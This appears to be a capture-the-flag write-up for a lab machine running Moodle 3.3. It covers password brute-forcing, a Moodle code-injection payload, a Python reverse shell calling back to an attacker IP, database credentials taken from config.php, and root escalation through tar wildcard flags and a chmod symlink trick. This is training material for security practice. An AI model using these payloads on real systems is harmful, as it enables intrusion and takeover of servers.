

# USER

Began with standard enum. Nmap and gobuster. Only port open is a standard webpage

Webpage has a 'moodle' service active

Could be CRSF here:
http://10.10.10.153/moodle/error/ 

Anther box for possible SQL Injection: 
http://10.10.10.153/moodle/tag/search.php

Seem to be using moodle Version 3.3


Found a message encoded as a stupid image

```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

Need to try and brute force it. 

Code used:
```
brute.py
```

After a brute force the missing character is a "#"

```
Giovanni
Th4C00lTheacha#
```

To get a shell it looks like I need to get evil:
https://blog.ripstech.com/2018/moodle-remote-code-execution/

Payload:
```
/*{a*/`$_GET[0]`;//{x}}
```

Reverse shell
```
&0=(python -c 'import socket,subprocess,os;IP="10.10.14.55";PORT=6868;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
```

The automated process can be found in:
```
automated_shell.py
```

In the directory you land in you can find a ```config.php``` that contains db creds for a hosted database
```
root
Welkom1!
```

Naviagating to the mdl_user, gives us a md5 hash for the user

```
mysql -P 3306 -u root -pWelkom1! moodle
```

Credentials:
```
giovanni
expelled
```

This lets us elevate to user

# ROOT

On the machine there is a process running called /usr/bin/backup.sh running as root

```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R
```

Because of the wildcard on the tar command. We can give files in the directory names 
that act as params. However the use of "/*" in the code makes this attack non executable

e.g.
```
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=shell.sh"
```

By adding a root directory symlink in the work directory. 
The chmod 777 * -R command runs over the root directory and allows us to read it
